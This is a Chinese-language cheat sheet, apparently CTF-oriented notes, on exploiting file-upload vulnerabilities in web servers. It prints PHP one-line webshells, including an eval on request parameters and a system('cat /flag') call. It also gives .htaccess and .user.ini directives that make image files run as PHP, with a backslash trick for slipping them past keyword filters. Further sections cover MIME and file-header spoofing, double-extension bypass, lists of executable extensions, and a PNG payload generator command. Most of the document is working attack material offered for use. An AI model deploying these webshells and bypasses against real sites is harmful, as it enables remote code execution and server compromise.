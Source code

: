 ### 文件上传漏洞

详解：https://www.freebuf.com/articles/web/276819.html

#### 简介

想尽办法在目标服务器上上传一个`share.php`文件，一般内容为一句话木马

```php
<?php eval($_REQUEST['xxx']);?>
<?= @eval($_POST[x]); ?>
<script language='php'>eval($_REQUEST['xxx']);</script>
```

然后getshell

#### 前端js过滤文件格式

一般的处理方法是先上传一个符合过滤条件的文件后缀，如图片🐎，然后使用BP抓包修改文件格式后上传即可

#### .htaccess文件利用

首先知道什么是`.htaccess`文件

全称是Hypertext Access(超文本入口)。.htaccess是一个配置文件，用来运行Apache Web Server的Web服务器。当 .htaccess 文件被放置在一个目录中时，该目录又“通过 Apache Web 服务器加载”，然后 .htaccess 文件被 Apache Web 服务器软件检测并执行。

.htaccess文件所在的目录及其所有子目录，若要启动.htaccess配置文件，我们需要在服务器的主配置文件将 AllowOverride 设置为 All。

**通过.htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。.htaccess的配置文件==只能在Apache服务器中起作用==**

如何利用：

##### 常用字段

```htaccess
SetHandler application/x-httpd-php
#当前目录以及子目录所有文件将会被当作php解析
<FilesMatch "1.png">
  SetHandler application/x-httpd-php
</FilesMatch>
#将1.png当作php执行
```

```htaccess
AddType application/x-httpd-php .jpg
#将所有后缀为.jpg的文件作为php文件解析
AddHandler cgi-script .xxx
#扩展名为 .xxx 的文件作为 CGI 脚本来处理
```

```htaccess
php_value auto_prepend_file 1.txt 
#在主文件解析之前自动解析包含1.txt的内容
php_value auto_append_file 2.txt 
#在主文件解析后自动解析1.txt的内容
```

```htaccess
#php_flag 用来设定布尔值的php 配置指令。可以将engine 设置为0,在本目录和子目录中关闭php 解析,造成源码泄露。
php_flag engine 0
```

例:解析所有gif后缀为php

```htaccess
<Files "*.gif">
SetHandler application/x-httpd-php
php_flag engine on
</Files>
```

##### 绕过对文本的关键字过滤

使用反斜杠\加换行实现。题目过滤type、php等敏感字符。

```htaccess
AddTy\
pe application/x-httpd--ph\
p 1.png
# 即: AddType application/x-httpd-php 1.png
```



#### .user.ini文件利用

php.ini是**php的全局配置文件，对整个web服务起作用**，.user.ini和.htaccess都是目录的配置文件，.user.ini是用户自定义的php.ini，通常构造后门和隐藏后门。

**==利用.user.ini的条件==**：

**服务器脚本语言为PHP **

**服务器使用CGI **

**FastCGI模式 **

**上传目录下要有可执行的php文件**

```ini
GIF89a
auto_prepend_file=share.gif
```



#### MIME绕过

MIME即文件类型检测(Multipurpose Internet Mail Extensions)，多用途互联网邮件扩展类型。

部分Web应用系统判定文件类型是**通过content-type字段**，可以抓包，将其改为符合要求的类型，如image/gif，从而绕过校验。

https://www.w3school.com.cn/media/media_mimeref.asp



#### 双写后缀绕过

双写绕过，有些函数会替换敏感文件名，但不递归删除的话就可以双写绕过，例如share.pphphp，php被替换为空后就成了share.php



#### 上传可解析的其他文件名

例如：

```apl
asp/aspx:
asp,aspx,asa,asax,ascx,ashx,asmx,cer,aSp,aSpx,aSa,aSax,aScx,aShx,aSmx,cEr

php :
php,php5,php4,php3,php2,pHp,pHp5,pHp4,pHp3,pHp2,html,htm,phtml,pht,Html,Htm,pHtml

jsp :
jsp,jspa,jspx,jsw,jsv,jspf,jtml,jSp,jSpx,jSpa,jSw,jSv,jSpf,jHtml
```

phtml编写：可以绕过对`<??>`的guo

```php+HTML
<script language='php'>@eval($_POST['xxx']);</script>
<script language='php'>system('cat /flag');</script>
```



#### 文件头绕过检查

文件头和MIME差不多，只不过MIME是浏览器应用识别出来的，文件头是每个文件自带的

可以使用`GIF89a`，`�PNG`



#### PNG-IDAT-Payload-Generator使用

```shell
python generate.py -m php -o share.png
```

